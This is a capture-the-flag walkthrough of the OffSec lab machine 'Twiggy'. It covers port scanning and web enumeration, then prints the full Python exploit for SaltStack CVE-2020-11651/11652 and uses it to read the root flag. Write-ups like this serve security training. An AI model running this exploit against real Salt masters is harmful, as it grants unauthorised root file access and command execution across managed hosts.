

# Twiggy

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Fundamental
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab demonstrates exploiting a pre-auth remote code execution vulnerability in SaltStack Master (CVE-2020-11651). 
Learners will leverage the SaltStack API to execute arbitrary commands, resulting in a root shell on the target. This 
lab highlights the risks of unpatched critical vulnerabilities in infrastructure management tools.
Released: 3 Aug 2020
```

Machine link: [https://portal.offsec.com/machine/twiggy-244/overview/details](https://portal.offsec.com/machine/twiggy-244/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ export TARGET_IP=192.168.146.62 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-01 07:54 +0200
Nmap scan report for 192.168.146.62
Host is up (0.033s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: nginx/1.16.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.11 seconds
```

We have four services running and available:

- OpenSSH 7.4 on port 22
- NLnet Labs NSD (DNS) on port 53
- nginx 1.16.1 on port 80 and 8000
- ZeroMQ ZMTP 2.0 on port 4505 and 4506

### Check the web sites

Browsing manually to port 80 shows a [Mezzanine](https://mezzanine.readthedocs.io/en/latest/overview.html) site



Checking the web site doesn't give much information other than that Django is used.

A scan with `whatweb` confirms the previously found information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ whatweb -a3 $TARGET_IP
http://192.168.146.62 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.16.1], IP[192.168.146.62], JQuery[1.8.3], Script, Title[Home | Mezzanine], X-Frame-Options[SAMEORIGIN], nginx[1.16.1]
```

We also start a `gobuster` scan in the background, looking for additional files and/or directories

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x py,txt,html -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.146.62
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              py,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 6091]
/contact              (Status: 200) [Size: 7951]
/search               (Status: 200) [Size: 6138]
/blog                 (Status: 200) [Size: 6252]
/gallery              (Status: 200) [Size: 22187]
/admin                (Status: 200) [Size: 4251]
/static               (Status: 403) [Size: 153]
/comment              (Status: 400) [Size: 0]
/edit                 (Status: 200) [Size: 4250]
/rating               (Status: 400) [Size: 0]
Progress: 102351 / 882244 (11.60%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 102364 / 882244 (11.60%)
===============================================================
Finished
===============================================================
```

Finally, checking the response from port 8000 we get JSON-data

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ curl -s http://$TARGET_IP:8000 | jq
{
  "clients": [
    "local",
    "local_async",
    "local_batch",
    "local_subset",
    "runner",
    "runner_async",
    "ssh",
    "wheel",
    "wheel_async"
  ],
  "return": "Welcome"
}
```

### Search for available exploit(s)

Let's check for available exploits for Mezzanine

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ searchsploit mezzanine            
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Mezzanine 4.2.0 - Cross-Site Scripting                                                                                                                          | python/webapps/40799.txt
Mezzanine CMS 6.1.0 - Stored Cross Site Scripting (XSS)                                                                                                         | multiple/webapps/52385.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

XSS vulnerabilities is not what we are looking for.

How about nginx?

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ searchsploit nginx 1.16.1
Exploits: No Results
Shellcodes: No Results
```

Nope, no luck there either.

If we turn our attention to [ZeroMQ](https://en.wikipedia.org/wiki/ZeroMQ) instead, we find nothing with searchsploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ searchsploit ZeroMQ ZMTP 2.0
Exploits: No Results
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ searchsploit ZeroMQ ZMTP    
Exploits: No Results
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ searchsploit ZMTP       
Exploits: No Results
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ searchsploit ZeroMQ     
Exploits: No Results
Shellcodes: No Results
```

but a Google search gives us [this Saltstack RCE](https://www.exploit-db.com/exploits/48421).

### Try out the exploit

We check the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ cat 48421.py                       
# Exploit Title: Saltstack 3000.1 - Remote Code Execution
# Date: 2020-05-04
# Exploit Author: Jasper Lievisse Adriaanse
# Vendor Homepage: https://www.saltstack.com/
# Version: < 3000.2, < 2019.2.4, 2017.*, 2018.*
# Tested on: Debian 10 with Salt 2019.2.0
# CVE : CVE-2020-11651 and CVE-2020-11652
# Discription: Saltstack authentication bypass/remote code execution
#
# Source: https://github.com/jasperla/CVE-2020-11651-poc
# This exploit is based on this checker script:
# https://github.com/rossengeorgiev/salt-security-backports

#!/usr/bin/env python
#
# Exploit for CVE-2020-11651 and CVE-2020-11652
# Written by Jasper Lievisse Adriaanse (https://github.com/jasperla/CVE-2020-11651-poc)
# This exploit is based on this checker script:
# https://github.com/rossengeorgiev/salt-security-backports

from __future__ import absolute_import, print_function, unicode_literals
import argparse
import datetime
import os
import os.path
import sys
import time

import salt
import salt.version
import salt.transport.client
import salt.exceptions

def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

# --- check funcs ----

def check_connection(master_ip, master_port, channel):
  print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
  sys.stdout.flush()

  # connection check
  try:
    channel.send({'cmd':'ping'}, timeout=2)
  except salt.exceptions.SaltReqTimeoutError:
    print("OFFLINE")
    sys.exit(1)
  else:
    print("ONLINE")

def check_CVE_2020_11651(channel):
  print("[+] Checking if vulnerable to CVE-2020-11651... ", end='')
  sys.stdout.flush()

  try:
    rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
  except:
    print('ERROR')
    return None
  else:
    pass
  finally:
    if rets:
      print('YES')
      root_key = rets[2]['root']
      return root_key

  print('NO')
  return None

def check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read_token)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'cmd': 'get_token',
    'arg': [],
    'token': top_secret_file_path,
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("YES")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    print("NO")
  
def check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (read)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.read',
    'path': top_secret_file_path,
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return']:
      print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write1(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write1)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.write',
    'path': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'data': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)

    pp(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write2(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write2)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'config.update_config',
    'file_name': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'yaml_contents': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652.conf')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def pwn_read_file(channel, root_key, path, master_ip):
    print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])

def pwn_upload_file(channel, root_key, src, dest, master_ip):
    print("[+] Attemping to upload {} to {} on {}".format(src, dest, master_ip))
    sys.stdout.flush()

    try:
        fh = open(src, 'rb')
        payload = fh.read()
        fh.close()
    except Exception as e:
        print('[-] Failed to read {}: {}'.format(src, e))
        return

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.write',
        'saltenv': 'base',
        'data': payload,
        'path': dest,
    }

    rets = channel.send(msg, timeout=3)
    print('[ ] {}'.format(rets['data']['return']))

def pwn_exec(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute {} on {}".format(cmd, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'runner',
        'fun': 'salt.cmd',
        'saltenv': 'base',
        'user': 'sudo_user',
        'kwarg': {
            'fun': 'cmd.exec_code',
            'lang': 'python',
            'code': "import subprocess;subprocess.call('{}',shell=True)".format(cmd)
        },
        'jid': jid,
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return

    if rets.get('jid'):
        print('[+] Successfully scheduled job: {}'.format(rets['jid']))

def pwn_exec_all(channel, root_key, cmd, master_ip, jid):
    print("[+] Attemping to execute '{}' on all minions connected to {}".format(cmd, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': '_send_pub',
        'fun': 'cmd.run',
        'user': 'root',
        'arg': [ "/bin/sh -c '{}'".format(cmd) ],
        'tgt': '*',
        'tgt_type': 'glob',
        'ret': '',
        'jid': jid
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return
    finally:
        if rets == None:
            print('[+] Successfully submitted job to all minions.')
        else:
            print('[-] Failed to submit job')


def main():
    parser = argparse.ArgumentParser(description='Saltstack exploit for CVE-2020-11651 and CVE-2020-11652')
    parser.add_argument('--master', '-m', dest='master_ip', default='127.0.0.1')
    parser.add_argument('--port', '-p', dest='master_port', default='4506')
    parser.add_argument('--force', '-f', dest='force', default=False, action='store_false')
    parser.add_argument('--debug', '-d', dest='debug', default=False, action='store_true')
    parser.add_argument('--run-checks', '-c', dest='run_checks', default=False, action='store_true')
    parser.add_argument('--read', '-r', dest='read_file')
    parser.add_argument('--upload-src', dest='upload_src')
    parser.add_argument('--upload-dest', dest='upload_dest')
    parser.add_argument('--exec', dest='exec', help='Run a command on the master')
    parser.add_argument('--exec-all', dest='exec_all', help='Run a command on all minions')
    args = parser.parse_args()

    print("[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.")
    time.sleep(1)

    # Both src and destination are required for uploads
    if (args.upload_src and args.upload_dest is None) or (args.upload_dest and args.upload_src is None):
        print('[-] Must provide both --upload-src and --upload-dest')
        sys.exit(1)

    channel = init_minion(args.master_ip, args.master_port)

    check_connection(args.master_ip, args.master_port, channel)
    
    root_key = check_CVE_2020_11651(channel)
    if root_key:
        print('[*] root key obtained: {}'.format(root_key))
    else:
        print('[-] Failed to find root key...aborting')
        sys.exit(127)

    if args.run_checks:
        # Assuming this check runs on the master itself, create a file with "secret" content
        # and abuse CVE-2020-11652 to read it.
        top_secret_file_path = '/tmp/salt_cve_teta'
        with salt.utils.fopen(top_secret_file_path, 'w') as fd:
            fd.write("top secret")

        # Again, this assumes we're running this check on the master itself
        with salt.utils.fopen('/var/cache/salt/master/.root_key') as keyfd:
            root_key = keyfd.read()

        check_CVE_2020_11652_read_token(debug, channel, top_secret_file_path)
        check_CVE_2020_11652_read(debug, channel, top_secret_file_path, root_key)
        check_CVE_2020_11652_write1(debug, channel, root_key)
        check_CVE_2020_11652_write2(debug, channel, root_key)
        os.remove(top_secret_file_path)
        sys.exit(0)

    if args.read_file:
        pwn_read_file(channel, root_key, args.read_file, args.master_ip)

    if args.upload_src:
        if os.path.isabs(args.upload_dest):
            print('[-] Destination path must be relative; aborting')
            sys.exit(1)
        pwn_upload_file(channel, root_key, args.upload_src, args.upload_dest, args.master_ip)


    jid = '{0:%Y%m%d%H%M%S%f}'.format(datetime.datetime.utcnow())

    if args.exec:
        pwn_exec(channel, root_key, args.exec, args.master_ip, jid)

    if args.exec_all:
        print("[!] Lester, is this what you want? Hit ^C to abort.")
        time.sleep(2)
        pwn_exec_all(channel, root_key, args.exec_all, args.master_ip, jid)


if __name__ == '__main__':
    main()         

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ python 48421.py  
Traceback (most recent call last):
  File "/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Twiggy/48421.py", line 29, in <module>
    import salt
ModuleNotFoundError: No module named 'salt'
```

We are missing the [salt module](https://pypi.org/project/salt/).

After installing it in a new virtual environment, we give it a new try

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ source ~/Python_venvs/Salt/bin/activate

┌──(Salt)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ python 48421.py                        
Traceback (most recent call last):
  File "/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Twiggy/48421.py", line 31, in <module>
    import salt.transport.client
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/transport/__init__.py", line 8, in <module>
    from salt.transport.base import (
    ...<7 lines>...
    )
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/transport/base.py", line 9, in <module>
    import salt.utils.stringutils
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/stringutils.py", line 16, in <module>
    from salt.utils.decorators.jinja import jinja_filter
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/decorators/__init__.py", line 14, in <module>
    import salt.utils.args
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/args.py", line 14, in <module>
    import salt.utils.data
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/data.py", line 19, in <module>
    import salt.utils.yaml
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/yaml.py", line 7, in <module>
    from yaml import YAMLError, parser, scanner
ModuleNotFoundError: No module named 'yaml'
[ERROR   ] An un-handled exception was caught by Salt's global exception handler:
ModuleNotFoundError: No module named 'yaml'
Traceback (most recent call last):
  File "/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Twiggy/48421.py", line 31, in <module>
    import salt.transport.client
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/transport/__init__.py", line 8, in <module>
    from salt.transport.base import (
    ...<7 lines>...
    )
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/transport/base.py", line 9, in <module>
    import salt.utils.stringutils
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/stringutils.py", line 16, in <module>
    from salt.utils.decorators.jinja import jinja_filter
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/decorators/__init__.py", line 14, in <module>
    import salt.utils.args
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/args.py", line 14, in <module>
    import salt.utils.data
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/data.py", line 19, in <module>
    import salt.utils.yaml
  File "/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/utils/yaml.py", line 7, in <module>
    from yaml import YAMLError, parser, scanner
ModuleNotFoundError: No module named 'yaml'
```

Another missing module `yaml`!

After installing these additional modules:

- [PyYAML](https://pypi.org/project/PyYAML/)
- [looseversion](https://pypi.org/project/looseversion/)
- [packaging](https://pypi.org/project/packaging/)
- [tornado](https://pypi.org/project/tornado/)
- [msgpack](https://pypi.org/project/msgpack/)
- [distro](https://pypi.org/project/distro/)
- [jinja2](https://pypi.org/project/Jinja2/)
- [pyzmq](https://pypi.org/project/pyzmq/)

we try again

```bash
┌──(Salt)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ python 48421.py -h
usage: 48421.py [-h] [--master MASTER_IP] [--port MASTER_PORT] [--force] [--debug] [--run-checks] [--read READ_FILE] [--upload-src UPLOAD_SRC] [--upload-dest UPLOAD_DEST] [--exec EXEC]
                [--exec-all EXEC_ALL]

Saltstack exploit for CVE-2020-11651 and CVE-2020-11652

options:
  -h, --help            show this help message and exit
  --master, -m MASTER_IP
  --port, -p MASTER_PORT
  --force, -f
  --debug, -d
  --run-checks, -c
  --read, -r READ_FILE
  --upload-src UPLOAD_SRC
  --upload-dest UPLOAD_DEST
  --exec EXEC           Run a command on the master
  --exec-all EXEC_ALL   Run a command on all minions
```

### Get the root flag

With the exploit we can read files, so why not try to read the root flag?

```bash
┌──(Salt)─(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Twiggy]
└─$ python 48421.py -m $TARGET_IP -r /root/proof.txt
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/Python_venvs/Salt/lib/python3.13/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.146.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
[+] Attemping to read /root/proof.txt from 192.168.146.62
b<REDACTED>1

/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Twiggy/48421.py:364: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  jid = '{0:%Y%m%d%H%M%S%f}'.format(datetime.datetime.utcnow())
```

For additional information, please see the references below.

## References

- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [Django (web framework) - Wikipedia](https://en.wikipedia.org/wiki/Django_(web_framework))
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [JSON - Wikipedia](https://en.wikipedia.org/wiki/JSON)
- [jq - Homepage](https://jqlang.org/)
- [jq - GitHub](https://github.com/jqlang/jq)
- [Nginx - Wikipedia](https://en.wikipedia.org/wiki/Nginx)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Salt (software) - Wikipedia](https://en.wikipedia.org/wiki/Salt_(software))
- [Saltstack 3000.1 - Remote Code Execution - ExploitDB](https://www.exploit-db.com/exploits/48421)
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
- [ZeroMQ - Wikipedia](https://en.wikipedia.org/wiki/ZeroMQ)
